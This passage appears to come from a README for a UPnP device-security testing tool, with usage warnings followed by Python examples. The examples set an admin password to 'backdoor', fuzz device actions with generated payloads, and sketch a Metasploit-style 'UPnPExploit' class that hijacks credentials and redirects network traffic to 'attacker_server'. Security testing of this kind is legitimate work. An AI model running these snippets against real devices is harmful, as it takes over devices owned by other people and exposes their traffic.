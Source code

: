 ## 🔒 **Security Considerations**

### API Deployment Security
- **Never expose APIs to public networks** - localhost only
- **Use APIs only in controlled testing environments**
- **Implement authentication** for production deployments
- **Monitor API access logs** for unauthorized usage

### Target Device Impact
- **APIs provide full device control** - use responsibly
- **Some actions may cause service disruption** (volume, power)
- **Security actions can permanently alter devices** (passwords)
- **Always test on isolated networks first**

### Legal and Ethical Usage
- **Only target devices you own** or have explicit permission to test
- **Follow responsible disclosure** for discovered vulnerabilities  
- **Document all testing activities** for audit trails
- **Respect device availability** for legitimate users

## 🚀 **Advanced Features**

### Batch Operations
```python
# Execute multiple actions in sequence
api_client = UPnPAPIClient("http://localhost:8000")

await api_client.init(host="192.168.1.100", port=1400)
await api_client.volume.set_volume(50)
await api_client.transport.play()
await api_client.security.edit_account_password("admin", "root", "backdoor")
```

### Custom Payload Generation
```python
# Generate payloads based on action specifications
for action in profile["upnp"]["action_inventory"]["systemproperties"]:
    payloads = generate_test_payloads(action["arguments_in"])
    for payload in payloads:
        test_action_with_payload(action["name"], payload)
```

### Integration with Security Frameworks
```python
# Metasploit module integration
class UPnPExploit:
    def __init__(self, api_url):
        self.api = UPnPAPIClient(api_url)
    
    def exploit(self, target_host):
        self.api.init(target_host)
        
        # Use API for exploitation
        self.api.security.edit_account_password("admin", "root", "metasploit")
        self.api.config.set_network_redirect("attacker_server")
```
